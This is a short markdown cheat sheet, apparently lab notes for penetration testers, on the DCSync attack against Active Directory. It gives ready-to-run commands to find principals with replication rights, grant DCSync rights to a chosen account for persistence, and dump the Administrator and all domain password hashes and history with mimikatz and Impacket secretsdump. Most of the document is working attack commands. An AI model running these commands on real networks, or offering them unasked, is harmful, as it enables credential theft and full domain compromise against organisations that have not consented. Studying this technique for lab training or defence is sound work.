 ```yaml
---
title: DCSync
date: M02-18-2023
author: i4
---
```

- Permission: `IDL_DRSGetNCChanges`

## Info
- Uses: `Directory Replication Service Remote Protocol (MS-DRSR)`

A domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.

- Can be scanned for with [ADACLScanner](https://github.com/canix1/ADACLScanner)

## Requirements
- Compromised: 
	- Domain Admins
	- Enterprise Admins
	- Domain Controllers
 
## Check who has the permissions:
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ActiveDirectoryRights -match 'WriteDacl')}
```

## Giving somebody DCSync permissions

```
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

### Checking
```
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

## Using mimikatz
```mimikatz
mimikatz # lsadump::dcsync /user:Administrator
```

## With IMPacket
```bash
secretsdump.py -just-dc <user>:<password>@<ipaddress> -outputfile dcsync_hashes
[-just-dc-user <USERNAME>] #To get only of that user
[-pwd-last-set] #To see when each account's password was last changed
[-history] #To dump password history, may be helpful for offline password cracking
```
